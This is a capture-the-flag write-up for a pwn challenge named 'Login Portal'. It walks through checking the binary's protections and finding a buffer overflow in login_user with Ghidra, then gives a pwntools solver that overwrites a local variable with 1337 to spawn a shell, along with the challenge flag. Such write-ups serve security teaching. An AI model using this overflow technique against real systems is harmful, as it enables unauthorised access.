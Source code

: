 # Login Portal
>I dare you to login as admin ;)

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/746bf456-3ae5-4fb4-b3ed-d0a591b983be)

Given a binary file, and immediately check the binary
the protection

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/821f10e1-5cd4-49c2-ae3a-5a12560417ef)

From the results it was found that there was no canary and also PIE
Next, do a static analysis first to check
its vulnerable. Decompile using ghidra. on function
main, called login_user.

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/37f89df8-cdcf-43d9-9c09-f252618d64f7)

In line 12 it can be seen that there is a potential BOF, so
it looks like you just need to overwrite the value of the local_18 variable
becomes 0x539 or 1337. After successfully overwriting then
we managed to get the shell.

But keep in mind to do a stack overwrite is not necessary
perform BOF until it touches the Instruction Pointer. Just need to be precise
on the number of input buffers (48). So fill in the padding as much as 48
bytes, then enter the value 1337.

#### The solver used: 
```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

padding = 48

p = flat([
    asm('nop') * padding,
    1337
])

sh.sendlineafter(b':', p)
sh.interactive()
```

Then do a test locally : shell got

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/8d478687-36b9-4131-9d32-84fa43936074)

Just send it to the remote server:

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/9c96cc54-9cd8-4db9-88ab-8266ccf82ad3)

#### Flags successfully obtained:
```console
ForestyHC{admin_1337_here_is_your_crown_1fad32}
```
